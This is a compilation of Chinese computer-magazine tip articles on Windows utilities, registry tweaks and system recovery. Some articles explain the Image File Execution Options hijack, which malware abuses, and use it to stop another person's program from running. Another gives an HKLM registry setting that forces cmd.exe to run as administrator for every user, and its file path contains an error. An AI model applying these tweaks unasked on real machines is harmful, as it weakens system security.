在 ScreenShoter 主窗口中的“Region”栏中选择“Full screen”项，表示当点击 PrintScreen 键后，抓取的目标是整个屏幕。选择“Area”项，则可以抓取指定屏幕区域。点击“Area”按钮，出现抓图区域选择框，您可以自由调整该区域的大小，并将其移动到屏幕的任意位置。之后双击左键或者单击右键，保存目标区域。在“Image format”栏中可以选择图片格式，包括 JPG（默认）、PNG、BMP 等。在“Destination”栏中点击浏览按钮，可以设置图片保存路径，默认为桌面。点击菜单“Settings”→“Saving”→“Filename”项，在弹出窗口中可以修改存盘文件名，默认为“screenshot”。其存盘命名规则为“screenshot1.jpg”、“screenshot2.jpg”等。点击菜单“Settings”→“Saving”→“Display Mouse”项，可以选择是否显示鼠标箭头。以后，您只需点击 PrintScreen 键，就可以将抓取的全屏或者目标区域的图片自动保存了，省却了手工存盘的繁琐。

（文/郭建伟）

## 反客为主 控制映像劫持远离病毒

映像劫持病毒已经困扰了许多用户很长一段时间，每次进注册表删除就弄死了不少脑细胞。这不，A 同学又被映像劫持病毒难倒了，只能请求高手 B 来帮忙了。

### 映像劫持是什么？

A：呵呵，怎么 Photoshop 打不开了，还提示找不到文件，它明明在这啊！
B：我想是不是中了映像劫持病毒，
A：映像劫持？那是什么东西？
B：那是微软在 Windows 系统中提供给开发者的调试项目，在注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”中包含了许许多多以文件名命名的子项。
A：我看见 Photoshop.exe 了，把它删掉就能用了吗？咦，怎么还有那么多项目，不会这些我都打不开了？
B：删掉就应该能用了，至于其他的，你点一下看看右面有没有一个 debugger，如果没有就不要删了，它们都是系统正常运行的结果。
A：那奥秘就在这个 debugger 中了？
B：对，刚才 Photoshop 打不开就因为有个 debugger，debugger 中应该是一个错误的地址，这样系统才会说找不到，简单的说，映像劫持就是在你打开某个程序的时候，会自动转向 debugger 中指定的文件，例如病毒，如果这个文件被删了或者病毒被杀掉了，那么系统自然就会报错。

### 删除映像劫持，杀死病毒

A：我懂了，可是以后我都得这么麻烦进注册表删吗？
B：当然不用，下面我给你演示一下怎么用 IHTool（下载地址：http://www.odeis.net/ihtool.html）来对映像劫持进行管理。

#### 一、清理系统中的映像劫持

在用杀毒软件杀完映像劫持病毒后，很多软件的劫持并未被解除。所以我们需要把它们都清理掉，否则这些软件都将无法运行。
1. 首先将下载好的 IHTool 从压缩包中解压出来，然后双击 ihtool.exe 运行。
2. 点击“扫描”，发现系统中有未知程序针对 IE 浏览器的劫持，选中。
3. 点击“删除”并确认即可。

#### 二、用映像劫持控制病毒

A：既然映像劫持可以被病毒利用，那我们能不能用它来让病毒无法运行呢？
B：当然可以，你看你的电脑中还有病毒没删掉，就像这个 cftmon.exe，我们就拿它来开刀。
1. 回到 IHTool，点击“添加”。
2. 点击“文件名”后的“打开”选择或直接输入病毒名称。
3. 勾选“使用 IHTool 管理”并点击“添加”，IHTool 将添加对该病毒的劫持。
4. 用任何进程管理软件结束掉病毒进程，一般的病毒都会再次自动运行（因为用了双进程保护），这时候映像劫持的功效就显示出来了。
5. 同理把病毒的守护进程一起干掉。
6. 直接找到病毒删掉，确认病毒已经被删除后回到 IHTool 中选中对病毒的劫持，点击“删除”以避免其他可能发生的副作用。

小提示：
如果你实在无法结束掉病毒进程，那就直接重启吧，会有一样的效果。

### 利用映像劫持，阻止他人运行程序

A：看来映像劫持的用处还真不少，那我能不能……（嘴角露出一丝邪恶的笑）
B：我懂了，你是想让某个程序不被运行吧？
A：是啊，我同学他总是在我电脑上玩魔兽，把我之前好不容易打的进度都覆盖了。
B：那我们就把魔兽给屏蔽掉吧，不过你是想要让系统弹出错误框，还是指向另外一个程序呢？
A：你都给我介绍一下吧，我到时候再想想具体用什么。

#### ①弹出系统错误框

1. 打开 IHTool，和删除病毒一样，点击“添加”并选中魔兽争霸的主文件 Frozen Throne.exe。
2. 勾选“弹出错误框”后点击“设置”错误提示。
3. 在新窗口中选择一种错误提示，这里我们选用自定义，选择图标并输入标题和内容。
4. 确认输入并点击“添加”。此时运行魔兽争霸，就会弹出错误框。

#### ②指向另外的程序

1. 依旧是在 IHTool 中点击“添加”。
2. 不勾选任何一个选项，点击“指向文件名”后的“打开”来选择指向文件，比如 QQ。
3. 点击“添加”，再次运行魔兽争霸，就只会弹出 QQ 的登录框。

### 后记

A 同学删除了病毒并对魔兽争霸进行了映像劫持，这导致每次他同学运行魔兽的时候，都会被对话框吓一跳，只好作罢。A 同学的电脑也不再惧怕病毒了。

（文/翟易）

## NTFS 文件夹打不开该怎么办

单位的电脑是 WinXP 系统，一直都在使用，打开文件和文件夹也没有问题。不知是什么原因，唯独“我的电脑”中的“I”盘中的一个文件夹出了问题，双击该文件夹时，就提示文件夹无法访问。为了搞明白不能访问的原因，就在该文件夹处右击，单选“属性”选项，发现该文件夹的占用容量为 0 字节，里面的文件数也是 0 个文件。难到是谁把其中的文件给删除了，就剩下一个空的文件夹。就试着把该文件夹拖入到回收站里（不用担心，回收站只要不清空，文件是可以恢复出来的），然而，系统却提示“无法删除文件夹：目录为是空的”。不会是病毒和木马在作怪吧？于是就按下键盘的“CTRL+DEL+ALT”组合键激活任务管理器，查看系统正在运行的进程，没有发现可疑的进程。为了确保万无一失，运行“360 杀毒软件”进行全盘杀毒，也没有查到病毒和木马。现在可以初步断定，该文件夹被加密或者是设置了什么权限，文件夹打不开也删除不掉，这该怎么办呀！

在无计可施的情形下，想起数据恢复软件 EasyRecovery，不妨试试，也许会出现奇迹呢。还好“I”盘中的文件不是很多，把其他无关的文件全部转移到别的磁盘中。为确保万无一失，先对“I”盘进行数据备份，下载克隆软件 GHOST32 11.0，运行 GHOST32 11.0 程序，依次单击 GHOST32 窗口上的“Local”->“Disk” -> “TO Image”，目标盘选择为“I”盘，然后再选择源盘，把盘中的资料备份起来。

接着，要对“I”盘进行磁盘格式化操作（不必担心，前面已经备份过）。打开桌面上的“我的电脑”右击“I”盘，单选“属性”，选择“格式化”操作，在弹出的“格式化”窗口中，把“快速格式化”选项给选中，接着进行格式化操作，不多会儿，完成格式化操作，这时就不能在 I 盘中读写数据，否则会造成无法恢复。

然后，运行数据恢复 EasyRecovery，先单击左侧的“数据恢复”，再单击右则窗口的格式化操作，下一窗口中选择将要恢复的“I”盘，文件格式一定要选对，因为 I 盘是 NTFS 格式，所以一定要选择 NTFS 格式。接着单击“下一步”操作，系统进行磁盘扫描，大约 20 分钟后，扫描完成，出现另一窗口，在该窗口中选择要恢复到的磁盘路径，单击下一步开始数据恢复（这时一定要注意，选择恢复的目标盘一定是 NTFS 格式，否则有些数据是没法还原的），还要在左侧文件目录中选择“LostFile”文件夹，等到数据全部恢复完毕后，单击目标盘，打开 DIR0 文件夹，可以打开了，资料全在，随便打开其中的一个文件，没有问题。到此，完成了“I”盘中文件夹的打开。

换用另一方法，用 GHOST11.0 软件，把“I”盘的数据给还原过来，我们再回到“I”盘中，右击“I”盘，选择“属性”，文件的格式为 NTFS，是不是谁设置了文件的权限呢？右击“I”盘中的那个打不开的文件夹，选择“属性”，没有发现有“共享和安全”选项。这下突然明白了，是系统设置了简单共享。这种情况好解决，双击“我的电脑”，在窗口中选择“工具”菜单，再选择“文件夹选项”，在弹出的对话框中单击“查看”标签，把“简单文件共享”的属性给去掉，单击“确定”，完成操作。再次，打开“I”盘，右击那个打不开的文件夹，选择“共享和安全”，然后在弹出的页面选择“安全”标签，发现在超级用户下面的选择都是灰的，没有办法修改。这时，我们可以单击该页面下方的“高级”按钮，打开“高级”对话框后，选择“权限”选项“Administrator”选项条，接着再次打开“安全”标签，把“拒绝”下面的对钩去掉，然后单击“确定”按钮。最后，再次打开该文件，所有的文件都又是好的，问题解决了。

（文/王昌红）

## 加密不再繁琐 文档随时加密

如果我告诉您，当您编辑机密数据时，按下“Ctrl+C”键，可以快速执行数据的加解密操作，您相信吗？有了 Free Message Encrypter（简称 FME）这款免费的加密软件，加密文本就是这么轻松。

FME 只包含一个“Free_Message_Encrypter.exe”文件，是一款免费的绿色软件，您完全可以将其复制到优盘，随时随地独立运行。当运行 FME 时，必须在自动弹出的密码设置窗口输入密码（长度不少于 8 位），这里建议点击“Confirm”按钮，完成密码的一次性设置，以后只要启动 FME，必须重新设置密码，这样做虽然繁琐，但是安全性高。如果点击“Save”按钮，可以将密码存储在本地，以后启动 FME 就不必输入密码了。这样虽然省去了频繁输入密码的繁琐，但是安全度很低，因为任何人都轻松解密您的机密数据。这里为了便于说明，我们使用记事本作为编辑工具，在记事本最开头处输入“ENC:”（不包括引号），在其后面跟随加密的内容。

当执行加密操作时，将这些数据（包括“ENC:”）全部选中，点击“Ctrl+C”键，FME 即可对选定的数据进行高强度加密。之后可以得到加密后的数据，可以看到，加密后的数据包含在“<fme_encrypted_msg>”和“</fme_encrypted_msg>”标识符之间。注意，在加密解密时必须关闭中文输入法。

当加密完成后，在系统托盘中的 FME 菜单中点击“Exit”项，关闭 FME，防止别人随意解密。当您需要解密时，可以运行 FME，输入与之前加密时相同的密码。之后打开文档，选中整个加密数据块，包括其首尾的“<fme_encrypted_msg>”和“</fme_encrypted_msg>”标识符。点击“Ctrl+C”键，FME 就可以对其自动解密，并在解密窗口显示原始内容。

小技巧：
FME 加密格式是“ENC:加密的内容”，您只需在文档开头处加上该标记，之后选中需要加密的内容，就可以使用“Ctrl+C”键，执行加密操作了。
（文/郭建伟）

## 桌面内容巧隐形 俺的屏幕拒‘偷窥’

这几天小张比较郁闷，原因是他和别人吵架了。原来几天前小张在自己的电脑上编辑一篇文档，因为里面包含一些隐私信息，小张不想让别人看到。偏偏有个同事比较喜欢凑热闹，闲来无事凑到小张电脑前，非要看小张在干什么。为此两人吵了起来，闹得不欢而散。其实这种事情大家恐怕都遇到过。当您在编辑或者查看机密信息时，最讨厌的事情莫过于有“好事者”站在您的身后注视您的屏幕，不管其出于有意或者无意，这都会令您感到反感。如果直接将其赶走，恐怕会伤及和气。如何在保护敏感信息被偷窥的同时，又让“好事者”知趣的离开，看来真的讲究一些处理策略。试试 SmokeScreen 和 PrivateEye 这两款有趣的软件吧，在出现上述“危局”时，它们可以巧妙的保护桌面内容，让好事者既看不到任何有价值的内容，又不伤了彼此的和气。

### 为桌面巧施‘障眼法’

安装 SmokeScreen 后，在系统托盘中 SmokeScreen 图标的右键菜单中点击“Options”项，在设置窗口中的“Method of Hiding”栏中

- 勾选“Show screen capture”项，表示使用截图来伪装屏幕。
- 勾选“Minimize all windows”项，表示当触发保护动作时，可以隐藏桌面上所有打开的窗口。
- 勾选“Mute sound”项，表示进入保护状态后，可以执行静音操作。

如果选择了第一项，需要点击“Capture new screen image”按钮，在弹出窗口中选择“True Color (About 2.3mb file Size)”项，表示使用真彩色截图。点击 OK 按钮，进入截图状态。之后可以使用 ACDSee 等工具打开一张图片（最好能覆盖全屏），并使其以全屏状态显示。然后点击 F11 键，SmokeScreen 即可对该抓取该图片。以后可以使用其来伪装桌面。

- 在“System Tray Icon”栏中勾选“Invisile”项，表示可以在系统托盘中隐藏 SmokeScreen 图标。
- 在“Startup”栏中勾选“Start with Windows”项，可以让 SmokeScreen 跟随系统自动运行。
- 勾选“Start enbaled”项，可以让 SmokeScreen 自动进入激活状态。

在“Activation”栏中可以选择当鼠标移动到屏幕的哪个区域时，可以触发 SmokeScreen 的保护动作。默认选择“Left edge”项，表示当鼠标移动到屏幕左边缘时，进入桌面保护状态。当然，您可以选择其它屏幕位置，包括右边缘、上边缘、下边缘、左上顶点、左下顶点、右上顶点、右下顶点等位置。

接下来试试 SmokeScreen 的威力吧！例如当您打开网银页面，在输入密码等敏感信息时，发现有“好事者”站着附近观看，为了避免密码泄露，有免于得罪别人，可以将鼠标移动到屏幕左边缘，或者点击“~”键盘（以及其它激活热键），SmokeScreen 可以立即隐藏所有打开的窗口，并关闭声音，同时锁定桌面，只在桌面上显示预先截取的全屏图片。这样一来，那些“好事者”自感无趣，就会自动远离您的爱机。当您发觉“危险”过去后，可以双击桌面，输入密码后，恢复桌面的正常显示，继续您的操作即可。下载地址：http://www.harmonyhollow.net/download/smokescre.exe。

### 巧用摄像头保护桌面隐私

SmokeScreen 虽然简单好用，但是您必须手工移动鼠标或者点击热键，才可以保护桌面内容。如果您懒得手工操作，又不想让别人随意偷窥自己的桌面，该怎么办呢？使用 PrivateEye 这款独特的软件吧。通过摄像头监控周围环境，一旦发现周围有什么风吹草动，可以立即对屏幕进行模糊化处理，同时锁定桌面。这样既不得罪人，又省去了手工操作的繁琐。

- 调整摄像头的拍摄视角，让其能够监控到您周围环境。
- 第一次运行 PrivateEye，在自动弹出的向导窗口中点击“Next”按钮。
- 在下一步窗口中选择摄像头设备，在下一步窗口中输入密码，以后只有使用该密码，才可以调整 PrivateEye 控制参数，同时可以为桌面解锁。
- 在下一步窗口中执行面容识别处理，将您的面部对准摄像头，当“Take Picture”按钮闪动时，表示面部识别成功，点击该按钮完成面部画面捕捉。

接下来试试 PrivateEye 的威力吧！当您离开电脑，或者当您的周围环境出现变化（例如有人站到您的身后，或者将脸凑到您的电脑旁等），PrivateEye 会立即通过摄像头对其进行识别。一旦发现与预先拍摄的面部识别画面不符的话，会立即对屏幕内容进行模糊化处理，同时自动锁定屏幕，只有输入正确的密码，才可以为屏幕解锁。那些“好事者”看到您的屏幕发生如此变化，不用您“驱赶”，他们就会知趣的离开了。实际上，当您周围环境恢复正常，PrivateEye 通过摄像头捕捉并识别您的面容信息后，会自动执行解锁操作，省去了您输入密码的繁琐。

### 为 Windows 7 桌面加把‘锁’

办公室有台公用电脑，安装的是 Windows7 系统。该机主要用于为大家提供上网服务，便于大家上网浏览网页查询资料之用。不过办公室人多手杂，不同人使用该机时，都按照自己的习惯来操作。于是乎，有人在其中安装游戏，有人在上面看电影，有人利用该机听音乐，有人则利用上班时间炒股等等。在该机上充斥着各种杂乱的软件，系统配置经常被搞得乱七八糟，甚至病毒也经常光顾该机。如此乱象让办公室负责人老李很头疼。看来必须对其进行整治了。经过技术部小秦的帮忙，在该机上安装了 Secure Lockdown 这款独特的安全软件，为 Windows7 桌面巧妙加锁，才让该机的使用回归正道。



安装使用 Secure Lockdown，必须具有管理员权限，同时需要关闭系统的 UAC 服务。当 Secure Lockdown 初次运行时，必须点击“Alt+Shift+S”键，在弹出窗口的“Secure Lockdown”面板中直接点击“Try”按钮，进入密码配置界面（如图）。在其中的“New Password”和“Confirm Password”栏中设置保护密码。勾选“Enable Secure Lockdown”项，表示激活 Secure Lockdown 保护功能。勾选“Run as Shell”项，表示允许 Secure Lockdown 作为 Windows 7 外壳界面程序，替换原来的 Explorer.exe 外壳程序。在“Master Application”面板中的“Path”栏中点击浏览按钮，选择主程序。在“Arguments”栏中可以设置程序参数。注意当系统启动后，进入 Secure Lockdown 安全桌面后，只允许该主程序运行，其它的程序是禁止运行的。如果使用者关闭该主程序，该主程序会强制启动，始终将使用者的操作范围限制在该主程序之中。在本例中，为了让本机始终用于网络浏览目的，选择了“C:\Program Files\Internet Explorer\iexplore.exe”程序，将 IE 作为主程序使用。勾选“Run on Startup”项，表示让该主程序自动跟随系统运行。勾选“Keep Running”项，表示强制该主程序持续运行。勾选“Allow Logoff/Shutdown”项，表示当进入 Secure Lockdown 安全桌面环境后，允许使用者点击“Ctrl+Alt+Delete”键来打开锁定界面，在其中可以点击注销按钮，返回系统登录界面，或者点击关机按钮，关闭系统。勾选“KeepMaximized”项，可以让主程序全程以全屏幕方式运行。点击“Test”按钮，可以测试主程序运行效果。

（文/郭建伟）

## 系统内置程序 也能轻松掌控

众所周知，Win7的安全性有很大提升，但因此也带来一些不便。比如用户账户控制(UAC)功能可以为用户提供一个安全的桌面环境，所有程序默认都运行在普通权限(中完整性级别)下，有时需要某些程序运行在高权限下，需在程序上点击右键选择“以管理员身份运行”，如果你经常要管理员身份运行cmd、regedit、msconfig、画图等内置工具，每次都要这样操作显然很烦人。

当然，如果这些不是系统的内置程序，我们可以打开其文件属性，在“兼容性”标签下勾选“以管理员身份运行程序”来强制以最高权限运行。但当你试图为系统内置程序设置兼容性模式时，会看到这样的提示：“由于这个程序是该版本Windows的一部分，无法在上面设置兼容性模式。”其下的“兼容性模式”也是灰色不可设置的。那么，有什么方法或技巧让系统默认以管理员权限运行程序呢？

## 小知识：为何系统内置程序无法改变其兼容性？

由于文件的兼容性功能是为了解决老式应用程序与系统本身的兼容性问题而设计的，而Windows内置程序先天就和系统完全兼容，用户无需担忧这些程序与系统不兼容，于是Windows认为就没必要为这些程序设置兼容性属性，因此禁止用户自行去改变内置程序的兼容性。

### 第一招：改变保存路径，强制以最高权限启动

当然，如果你有能力修改系统程序，数字签名失效就可直接设置其兼容性，但一般情况下没必要这样做，如果不是很重要的系统程序，你完全可以把程序从系统文件夹里拷贝出来，比如把CMD.EXE文件从“C:\Windows\System32”文件夹中拷贝到桌面，然后打开其属性就可以强制以管理员权限运行了。

### 第二招：通过快捷方式改变运行权限

有些系统内置程序并不只有一文件，它可能配合其他DLL文件，随便改变其保存路径可能导致程序无法运行，那么你还可以在桌面或其他地方建立一个快捷方式，然后右键该快捷方式打开其属性，在“快捷方式”标签下点击“高级”(注意：快捷方式的兼容性依然是灰色不可设置的)，然后勾选“用管理员身份运行(R)”，确定选择后通过这个快捷方式就可以强制以管理员权限运行目标程序了。

### 第三招：修改注册表绕过系统身份验证

上面两种方法通过改变程序的启动路径来绕开系统身份验证，进而达到强制以管理员权限运行的目的。如果不希望改变程序的路径也不想建立快捷方式，我们还可以通过修改注册表来直接绕开系统身份验证。

**Step 1:**
我们先来看看系统是如何强制让一个程序以管理员权限运行的。比如我们要把“D:\Program Files\EmEditor\EmEditor.exe”这个非系统内置程序强制以管理员权限运行，即右键打开属性后在“兼容性”标签下勾选“以管理员权限运行此程序”(此项为当前用户设置，如果在该标签下点击“更改所有用户的设置”后勾选相同的选项则为全局设置)。

**Step 2:**
这个设置过程用注册表监控软件进行监测，就会发现这个过程系统会向注册表添加一个新的注册表项，即在HKCU\Software\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Layers (全局设置则对应HKLM根键的相同位置) 建下生成一个名为“D:\Program Files\EmEditor\EmEditor.exe”的字符串值，其数值为“RUNASADMIN”。如果你曾让其他程序默认以管理员权限运行，那么在这里会找到同样的键值。

**Step 3:**
同理，我们可以依葫芦画瓢将系统内置程序强制以管理员权限运行。比如让本机所有的用户都默认以管理员权限运行“C:\Windows\System32”文件夹中的cmd.exe文件，可以这样操作：运行regedit.exe打开注册表，依次定位到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Layers”，然后新建一个字符串值，名称设置为程序的路径(即%SystemRoot%\system\cmd.exe)，数据为“RUNASADMIN”，这样就可以绕过系统的限制强制以管理员身份运行了。

## 小知识：Windows是如何判断程序是否是内置的？

程序是否是Windows内置的，Windows是通过下面两个条件来判断的：一是安装路径，程序必须被包含在C:\Windows文件夹下(即%WinDIR%或%SystemRoot%)；二是数字签名，这是一种表明发布者身份的技术，保证文件在发布之后不被修改。Windows内置的程序其签名肯定是微软公司了。

(文/落日)

## 误装Win8？自己手动挽救Win7

自从微软发布了Win8开发者预览版后，编辑部便接到不少读者求助电话。很多读者反映安装了这个版本的Win8后，无法使用原来的Win7系统了。经过调查发现，原来Win8预览版有个BUG，如果在Win7下使用虚拟光驱加载Win8安装镜像的方式安装，Win8默认使用升级安装，很多读者使用正是这种安装方式，所以导致Win7无法使用。Win7无法使用怎么办，可别急着重装Win7! 我们可以自己动手挽救Win7，同时还可以保留已安装的Win8。

## 明明白白用好微软免费“后悔药”

为了避免升级安装导致的用户数据损失，从Vista开始如果我们使用升级方式安装新的系统，默认情况下安装程序会将原来系统全部封装在一个名为“Windows.old”文件夹中，因此我们只要手动将其其中的文件恢复到原来系统分区即可。对于已经安装的Win8，则可以借助系统提供的“创建系统镜像”功能，将当前系统转化为VHD文件，同时在“C:\boot\BCD”配置VHD启动即可。因此对于误装Win8用户，我们可以“鱼与熊掌兼得”，同时保留双系统。

### 小提示：
还没有安装Win8预览版用户怎么避免使用升级安装？在Win7使用虚拟光驱加载安装镜像后，我们只要运行“M:\sources\setup.exe”(假设M:为虚拟光驱盘符) 激活安装，然后选择“Custom (Advanced)”方式安装即可(使用M:\setup.exe默认安装方式不会出现该界面)。

## 对症下药，轻松保留双系统

### 一、保留Win8，创建系统镜像
从Win7开始，系统就原生支持VHD启动，Win8同样支持。因此我们只要使用“创建系统镜像”功能，将当前系统转化为VHD文件即可。

- 第1步：进入Win8系统后，以管理员身份启动命令提示符，然后输入“sdclt.exe”启动“还原Windows 7备份”组件，单击左侧窗格的“创建系统镜像”，按提示开始创建VHD镜像。
- 第2步：剩下的操作按屏幕提示，将当前系统分区备份为VHD文件即可。假设备份目标分区为J盘，备份完成后打开“J:\WindowsImageBackup\计算机名\Backup 2011-10-06 171207”，在其下即可看到类似“fbcde2aa-e79c-11e0-99f1-806e6f6e6963.vhdx”的文件(Win8创建的是.vhdx文件)。
- 第3步：右击上述“*.vhdx”文件选择“mount”，将其加载到系统中，假设盘符为L:，打开L盘后，按提示将“windows.old”目录删除(注意：删除该目录需要先将该目录所有者设置为当前管理员账户，并设置对其读取权限为“完全控制”)，这样就获得一个完整版的Win8系统了。

### 小提示：
为了便于描述，这里使用Win8简体中文版为例。简体中文包可以到 http://xiazai.zol.com.cn/down.php?softid=424358&subcatid=52&site=10&server=10&rand=6832275 下载。下载后得到的是一个“lp.cab”语言包文件，接着依次展开“控制面板\时钟、语言和区域”，接着单击“安装或者卸载显示语言”，在打开的窗口单击“安装显示语言”，然后单击“浏览”，选中上述下载到的简体语言包文件进行安装即可。

### 二、恢复Win7系统
由于Win7和Win8使用大量相同目录，同时也无法在当前系统下对系统文件进行替换。因此Win7文件的覆盖操作需要借助PE系统完成。

- 第1步：启动到Win8，然后到 http://bbs.wuyou.com/viewthread.php?tid=157912 下载“网虫2008完整版维护盘”，接着右击下载到的ISO文件选择“Mount”加载。假设加载的盘符为M:，将其其中的“m:\wc2008\win7re.wim”文件解压到D盘备用。
- 第2步：使用同样方法加载Win8安装文件，然后将“M:\boot\boot.sdi”也复制到D盘。接着以管理员身份启动下载到的“Bootice.exe”，切换到“BCD编辑”标签，单选“系统BCD”，然后单击“查看/修改”。接着在弹出的编辑窗口单击“添加→新建WIM启动项(ramdisk)”，接着选中新建的启动项，然后依次执行下列的操作：
    启动分区选择：D盘
    设备文件：\win7re.wim
    菜单标题：WinPE维护系统
    其它的选项采取默认设置，最后依次单击“保存当前系统设置”和“保存全局设置”退出。
- 第3步：在上述窗口选中新增的“WinPE维护系统”，单击“设为默认系统项”，这样重启后就直接进入网虫PE系统，进入系统后打开“计算机”，按提示删除C盘的“PerfLogs”、“Program Files”、“Users”、“Windows”目录。接着打开“C:\windows.old”目录，将其中的文件全部剪切到C盘根目录下，最后删除“C:\windows.old”目录。

### 三、配置启动项目
- 第1步：在PE系统中以管理员身份启动下载到的“Bootice.exe”，切换到“BCD编辑”后，删除原来所有启动项，接着单击“新建/添加Windows vista/7/2008启动项”，按提示添加Win7启动。同上继续添加VHD启动项，名称设置为“启动win8开发者预览版”，启动分区为J盘，设备为“J:\WindowsImageBackup\yumufa\Backup 2011-10-06 171207\fbcde2aa-e79c-11e0-99f1-806e6f6e6963.vhdx”(即上述创建系统镜像的VHDX文件)。
- 第2步：在启动列表选中“Windows 7”，将其设置为“默认操作系统”，这样重启后默认就可以进入原来Win7系统了。如果选择“启动Win8开发者预览版”，则可以进入Win8系统，进入Win8后打开磁盘管理器可以看到当前系统是从VHDX磁盘启动的(系统磁盘图标蓝色标示)。至此，我们顺利将误装的Win8移动到VHD虚拟磁盘，同时恢复了原来Win7启动。

### 小提示：
执行Win7文件覆盖操作后，重新进入Win7后可能会遭遇权限拦截操作(因为安装Win8后会出现权限的更改操作，“windows.old”目录很多文件权限所有者变为“system”账户)。比如无法在桌面保存文件，此时只要选中有权限阻止的文件(夹) 右击选择“属性”，接着在打开的窗口切换到“安全”标签，单击“高级”，先将前所所有者设置为当前账户，并设置当前账户对该文件(夹) 读取权限设置为“完全控制”即可解决故障。

(文/俞木发)

## 电脑懂人意 自动隐藏无关窗口图标

谁都不希望桌面上密密麻麻地排布许多窗口或图标，有些窗口或图标你既不想关闭它们，但可能长时间又用不到它们，白白地占用着桌面，影响心情，降低工作效率那都是肯定的。能不能让这些无关紧要的东西在主人不需要用到的时候，自动隐藏起来呢？

### 桌面图标玩隐身
软件“AutoHideDesktopIcons”（下载地址：http://xiazai.zol.com.cn/detail/43/423719.shtml）可以让桌面上的图标自动隐藏——在你没有对桌面操作一段时间以后。软件运行后，默认情况下，如果鼠标离开桌面图标超过5秒钟，软件会认为你不再关注桌面上的图标，它会把桌面的所有图标自动隐藏起来，只留下已打开的窗口，此时桌面上变得“干干净净”。如果需要恢复桌面图标的话，鼠标左击桌面任意位置就可以了。若勾选“Hide taskbar”，则在隐藏桌面图标时，任务栏也一同隐藏；也可以拖动时间滑块，改变等待隐藏桌面图标的时间；“Show via desktop click”中，用来设定鼠标的哪个按钮来恢复桌面，退出软件按下“Esc”键即可。

### 程序窗口贴边藏
QQ主界面就有自动贴边隐藏功能，它会在鼠标离开它后，自动“隐藏”起来，把屏幕让位于其它窗口，多么体贴！软件“WinAutoHide”（下载地址：http://dl.it.com.cn/soft/2010/02/20/31668.html）可以让其它窗口也能体贴人意。软件运行后，图标最小化到托盘处，需要把当前活动窗口贴边隐藏时，按下“Win+→”组合键，则窗口贴边隐藏到屏幕右侧，而按下组合键Win+←、Win+↓、Win+↑则分别表示窗口贴左、贴下、贴上隐藏，贴边隐藏后，鼠标移动到贴边区域，窗口自动恢复，鼠标移至窗口之外，窗口又自动贴边隐藏。贴边隐藏的窗口，在任务栏中没有任何显示，需要恢复窗口时，再次按下对应的组合键即可，或者右击托盘处软件图标，选择右键菜单中的“Exit”，则所有贴边隐藏窗口全部现身。

### 摇摇鼠标 窗口不见了
在Win7系统中，在桌面上摇晃鼠标可以使窗口隐藏，那么在XP中能否实现这样有趣的功能呢？去 http://dl.pconline.com.cn/download/52120-1.html 下载“Aero Shake”这款软件就能做到，软件运行后，在托盘中显示该软件图标，这时在桌面运行多个窗口，用鼠标指向某一窗口标题，按住鼠标左键拖住该窗口左右摇晃，则其它窗口立即隐身，再左右摇晃该窗口，其它窗口又立即在原来的位置出现。这种方法在有些场合很有用，当上班期间打开与工作无关的窗口时，一旦需要隐藏这些窗口，可以摇晃一个与工作有关的窗口，则其它窗口自动隐藏。

（文/曹春华）

## 为关机操作巧设“延时器”

市场部老李每到年底总是很忙，因为要写总结嘛！这天，老李忙活到深夜，好不容易撰写完初稿，连续的工作让老李变得很疲惫，在神情恍惚之际，鬼使神差地点了关机菜单，当关机画面出现时，老李才想起来没有保存文档，看着关机画面，老李那个后悔啊！上述乌龙关机场景，相信很多人都遇到过。如果能为关机操作装上“延时器”，就可以中途“截杀”关机动作，避免不必要的损失，而用了Shutdown Panel这款软件，您就可以轻松驯服乌龙关机。Shutdown Panel可以完美取代Windows关机面板，当执行关机操作时，双击桌面上的“Shutdown Panel”图标，在关机窗口中点击“Shutdown”按钮，即可出现关机倒计时窗口，默认的时间为30秒钟，当倒计时完毕，才会执行真正的关机操作，在此期间，您可以点击Shutdown Panel窗口底部的“Abort action”按钮，来终止关机动作，返回正常操作环境。当然，点击“Restart”或者“Log Out”按钮，同样可以实现延时重启和注销操作。Shutdown Panel需要Microsoft .NET Framework 4.0组件的支持。

## 记得几个文字 也能搜出文本文件

好友明明在单位做文员，电脑中保存了很多TXT和DOC格式的文本文件，有时候需要从其中找出以前的某一个文档，但又忘记了文件名，非常麻烦，笔者给他推荐一款搜索文本文件的利器——OS Search，只要还记得文件中的一句话或者几个字，就能轻松搜索到。打开 http://home.xdf.cn/thread-212817-1-1.html 下载该软件，解压后运行，首先选择文件所在的硬盘分区目录，如果忘记在哪个分区，则需要一个一个分区来搜索，单击主界面中的“浏览”按钮，并在弹出窗口中选择目标分区，单击“确定”按钮，接着在“搜索内容”里边输入文章中的某一句话或者几个字，需注意输入的准确性，如果对那句话实在记得不是很清楚，则只需填写有把握记得的那部分，虽然OS Search搜索文件的时候有一定的偏移量。输入搜索内容后，你还需要在目标路径下面选择编码方式为“MBOS编码”，最后单击“查找”按钮，软件将会自动为你搜索，搜索结果将会显示在下面的列表中，有文件名和路径，然后根据文件名和文件路径即可找到需要的文本文件了。

（文/贺全荣）



## 巧用组策略 搞定微软自动更新

很多用户对Windows Update印象深刻吧？在Windows 7中居然延续XP更新完要重启电脑，有没有必要呢？有没有好的办法自动安装更新呢？其实只要用上组策略就可以解决了：打开“运行”，输入gpedit.msc，找到“计算机配置”->“管理模版”->“Windows组件”->“Windows Update”，找到“配置自动更新”并打开它，选“已启用”，之后你可以在“配置自动更新”、“计划安装时间”等设置项中进行设置，单击“确定”按钮即可生效。另外，我们同样在“Windows Update”中双击“对于已登录用户的计算机，计划的自动更新安装不执行重新启动”选项，将“未配置”改为“已启用”，点击“确定”按钮完成设置。这样，Windows 7每次更新完成后就不会再重新启动系统了。

## 系统快捷键 速速报上名来

相信大家多多少少都用过一些软件快捷键，比如编辑文档过程中最常用到的复制(Ctrl+C)、粘贴(Ctrl+V)，还有Boss来了快速切换窗口(Alt+Tab)以及最小化全部窗口(Win+D)。快捷键的实现过程很复杂，但是原理很简单，简单说就是当操作系统(比如Windows)加载核心(kernel)后就预先安排一些“监听者”进程，当有键盘输入特定指令时，“监听者”进程立即调用事先安排好的程序运行，并将结果反馈给用户。另一个比较常用系统启动选项调用键“F8”其实也是一个快捷键，很多朋友都想知道……

## 定制注册表 让移动中心适用所有Win7

